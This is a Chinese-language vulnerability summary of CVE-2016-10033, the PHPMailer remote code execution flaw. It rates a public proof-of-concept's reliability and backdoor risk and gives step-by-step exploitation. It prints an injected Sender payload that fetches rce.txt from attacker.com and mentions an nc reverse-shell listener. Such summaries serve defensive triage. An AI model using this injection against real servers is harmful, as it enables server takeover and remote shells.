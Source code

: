 ## CVE-2016-10033 - PHPMailer Remote Code Execution

**漏洞编号:** CVE-2016-10033

**漏洞类型:** 远程代码执行

**影响应用:** PHPMailer

**危害等级:** 高危，可能导致服务器被完全控制

**影响版本:** < 5.2.18

**利用条件:** 目标服务器运行存在漏洞版本的PHPMailer，且配置允许使用`mail`函数。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

该漏洞存在于PHPMailer 5.2.18之前的版本中，`mailSend`函数在使用`isMail`传输方式时，未对`Sender`属性进行充分的过滤，攻击者可以通过在`Sender`属性中构造包含反斜杠双引号(`\"`)的恶意字符串，向`mail`命令注入额外的参数，从而执行任意代码。

**有效性：**
根据提供的漏洞信息、搜索结果和漏洞利用代码，可以判断该漏洞利用是有效的。NVD和Mitre等权威漏洞库都收录了此漏洞，并明确指出是远程代码执行漏洞。搜索引擎结果也显示存在大量的关于此漏洞的分析和利用文章。

**投毒风险：**
POC代码存在一定的投毒风险，风险概率约为10%。具体分析如下：
*   **代码混淆：** POC使用了`sed`命令进行字符串替换，将`/`替换为`${substr{0}{1}{$spool_directory}}`，将空格替换为`${substr{10}{1}{$tod_log}}`，增加了代码的可读性难度，可能隐藏恶意代码。
*   **HTTP服务器：** 利用脚本启动一个简单的HTTP服务器，从攻击者的服务器下载`rce.txt` payload。这个`rce.txt`文件的内容没有提供，攻击者可以在`rce.txt`中植入恶意代码。所以如果rce.txt内容不符合预期，存在植入后门的风险。
*   **nc监听：** 循环使用`nc`监听1337端口，期望接受目标服务器的连接，如果目标服务器执行了payload，则会反弹shell。但是如果在其他命令执行前，就反弹了shell，说明rce.txt中可能存在其他恶意代码。

**利用方式：**
1.  **确定目标：** 找到使用PHPMailer并且版本低于5.2.18的Web应用程序。
2.  **构造Payload：** 构造包含恶意代码的`rce.txt`文件, 例如反弹shell的bash脚本。
3.  **启动HTTP服务器：** 攻击者启动一个HTTP服务器，用于托管`rce.txt`文件。
4.  **构造恶意请求：**  攻击者向目标Web应用程序发送包含恶意`Sender`属性的请求，该属性包含命令注入代码，例如：
    `attacker@localhost \" -oQ/tmp/ -X/tmp/rce.txt http://attacker.com/rce.txt null`
5.  **触发漏洞：** 目标Web应用程序调用PHPMailer发送邮件，由于`Sender`属性未经过滤，恶意代码被注入到`mail`命令中。
6.  **执行恶意代码：** `mail`命令执行恶意代码，从而实现远程代码执行。
7.  **清理：**  攻击成功后删除临时文件 `/tmp/rce`。

**项目地址:** [ElnurBDa/CVE-2016-10033](https://github.com/ElnurBDa/CVE-2016-10033)

**漏洞详情:** [CVE-2016-10033](https://nvd.nist.gov/vuln/detail/CVE-2016-10033)